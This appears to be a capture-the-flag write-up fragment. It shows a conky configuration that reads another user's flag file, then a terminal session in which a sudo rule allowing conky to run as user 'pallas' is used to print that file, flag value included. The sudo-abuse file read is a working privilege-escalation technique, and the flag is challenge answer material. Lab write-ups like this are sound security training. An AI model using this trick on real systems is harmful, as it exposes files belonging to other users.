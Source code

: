 ```config
conky.text = [[
${color grey}Info:$color ${scroll 32 Conky $conky_version - $sysname $nodename $kernel $machine}
$hr
${color grey}Uptime:$color $uptime
${color grey}Frequency (in MHz):$color $freq
${color grey}Frequency (in GHz):$color $freq_g
${color grey}RAM Usage:$color $mem/$memmax - $memperc% ${membar 4}
${color grey}Swap Usage:$color $swap/$swapmax - $swapperc% ${swapbar 4}
${color grey}CPU Usage:$color $cpu% ${cpubar 4}
${color grey}Processes:$color $processes  ${color grey}Running:$color $running_processes
$hr
${color grey}File systems:
 / $color${fs_used /}/${fs_size /} ${fs_bar 6 /}
${color grey}Networking:
Up:$color ${upspeed} ${color grey} - Down:$color ${downspeed}
$hr
${color grey}Name              PID     CPU%   MEM%
${color lightgrey} ${top name 1} ${top pid 1} ${top cpu 1} ${top mem 1}
${color lightgrey} ${top name 2} ${top pid 2} ${top cpu 2} ${top mem 2}
${color lightgrey} ${top name 3} ${top pid 3} ${top cpu 3} ${top mem 3}
${color lightgrey} ${top name 4} ${top pid 4} ${top cpu 4} ${top mem 4}

${head /pwned/pallas/flagz.txt 30}
]]
```

```bash title="Exploit it"
nyx@hades:~$ sudo -l
Matching Defaults entries for nyx on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nyx may run the following commands on hades:
    (pallas) NOPASSWD: /usr/bin/conky
nyx@hades:~$ nano /var/tmp/tessssssst-conky.conf
nyx@hades:~$ sudo -u pallas /usr/bin/conky -c /var/tmp/tessssssst-conky.conf
conky: drawing to single buffer
conky: invalid setting of type 'table'
Info:
Uptime: 193d 23h 55m
Frequency (in MHz): 2400
Frequency (in GHz): 2.40
RAM Usage: 1.01GiB/1.94GiB - 52% #####.....
Swap Usage: 0B/0B - 0% ..........
CPU Usage: 6% #.........
Processes: 106  Running: 0
File systems:
 / 8.75GiB/18.8GiB #####.....
Networking:
Up: 0B  - Down: 0B
Name              PID     CPU%   MEM%
 bash             4185872   0.00   0.13
 bash             4185829   0.00   0.18
 script           4185828   0.00   0.05
 sh               4185827   0.00   0.04
^irzKewMCfnhnIMTCJlW^
```
